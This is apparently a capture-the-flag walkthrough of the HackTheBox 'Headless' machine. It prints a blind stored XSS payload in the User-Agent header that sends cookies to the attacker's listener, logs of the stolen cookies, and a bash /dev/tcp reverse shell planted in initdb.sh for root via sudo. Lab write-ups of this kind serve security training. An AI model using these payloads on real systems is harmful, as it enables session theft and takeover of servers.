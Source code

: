 ```yaml
---
title: Headless
tags:
  - HackTheBox
  - Easy
  - Linux
  - XSS
  - Blind_XSS
  - Stored_XSS
  - Command-Injection
  - Cookie-Stealing
date: 2024-09-13T00:00:00Z
---
```

![](Pasted%20image%2020241113190319.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

[redacted]
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp
```

So I took a look at port 5000 website:

![](Pasted%20image%2020241113190550.png)

If we click on "For questions" we arrive to some kind of form:

![](Pasted%20image%2020241113190631.png)

Let's try to inject an XSS:

![](Pasted%20image%2020241113191302.png)

So I captured the petition with Burpsuite, but had the same result in the repeater. After this, I decided to inject the XSS in the `User-Agent` header:

![](Pasted%20image%2020241113191608.png)

```js
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

I don't get the Hacking message now and pop the alert!

![](Pasted%20image%2020241113194507.png)

I can now attempt to create a blind stored XSS to steal cookies with the following script:

```shell
<script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
```

```http
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

Almost inmediately I received some cookies in my python server:

```shell
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.14.24 - - [13/Nov/2024 19:54:07] "GET /?cookie=aXNfYWRtaW49YVhOZllXUnRhVzQ5U1c1V2VscFlTV2t1ZFVGc2JWaHNWSFp0T0haNWFXaHFUbUZRUkZkdWRrSmZXbVp6 HTTP/1.1" 200 -
10.10.11.8 - - [13/Nov/2024 19:55:04] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

> *Remember that they are base64 encoded*

So I decoded them and got these cookies:

```txt
aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Now I decided to perform some enumeration with [dirsearch](dirsearch.md):

```shell
dirsearch -u http://headless.htb:5000 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r

[redacted]
[19:50:36] 200 -    2KB - /support                                          
[19:50:49] 401 -  317B  - /dashboard
```

The `/dashboard` seems to be interesting, because initially we can't access to it. But maybe with the new cookie we actually can:

![](Pasted%20image%2020241113195803.png)

I got access to the Administration Dashboard!

I captured the petition with Burp and try to execute a Command Injection (which actually worked):

![](Pasted%20image%2020241113200048.png)

So I tried to inject a reverse shell:

![](Pasted%20image%2020241113200515.png)

> We've got a reverse shell!

![](Pasted%20image%2020241113200553.png)

![](Pasted%20image%2020241113200709.png)

## Privilege Escalation

I inspected the mail of the user `dvir` and found an interesting message:

```txt
cat /var/mail/dvir 
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

I inspected the binary:

```sh
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

So basically, if we create a shell inside `initdb.sh` we will become root.

```shell
cd /dev/shm
echo "bash -i >& /dev/tcp/10.10.14.24/777 0>&1" > initdb.sh
sudo /usr/bin/syscheck
```

> We become root and got root flag!

![](Pasted%20image%2020241113201811.png)

==Machine pwned!==
